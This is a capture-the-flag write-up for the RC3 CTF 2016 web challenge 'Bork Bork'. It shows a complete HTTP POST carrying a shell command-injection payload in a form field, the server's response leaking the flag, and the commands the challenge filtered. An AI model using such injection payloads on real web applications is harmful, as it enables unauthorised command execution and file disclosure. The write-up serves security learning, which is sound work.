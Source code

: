 ```yaml
---
layout: post
title: "RC3 CTF : Bork Bork"
author: dade
date: 2016-11-20 13:37:37 -0700
slug: bork-bork
category:
- 2016
- rc3ctf
---
```

**Category:** Web

**Points:** 300

**Description:**

```
UPDATE: We have made changes to this challenge to make it (somewhat) stable. If what you were trying before is not working, it's because it was causing a problem for us on the back end. I assure you that what you were doing was not the easiest solution, anyway.

We all love doggos and puppers. Have some more of one of our favorite puppers, Gabe. Bork.

https://ctf.rc3.club:3100/

author:orkulus
```

# Investigation

If you post to /bork and try to grab a random file, say, flag.txt, it prints out an error

```
cat: borks/flag.txt: No such file or directory?autoplay=1&loop=1
```

This means it's taking our input and passing it to "cat". Can we abuse this to disclose other files? What about chain commands for command injection? It looks like when we try to do something not allowed we get presented with an error page

```
TFW You Can't Pet Gabe
https://www.youtube.com/embed/3gEWROxlw4o
```

After some more testing, I found that some commands could be injected while others were being filtered. Things I couldn't seem to do include:

```
cat
find
ls
```

However, I was able to succeed by passing the following:

```
POST https://ctf.rc3.club:3100/bork HTTP/1.1
Host: ctf.rc3.club:3100
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://ctf.rc3.club:3100/
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

bork=$(grep -r '.' -e "RC3")
```

Which returned:

```
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Sat, 19 Nov 2016 22:20:50 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 416

<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="cat: &#39;borks/./bork.txt:RC3-2016-L057d0g3&#39;: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```


That looks like a flag to me!

# Flag
**RC3-2016-L057d0g3**
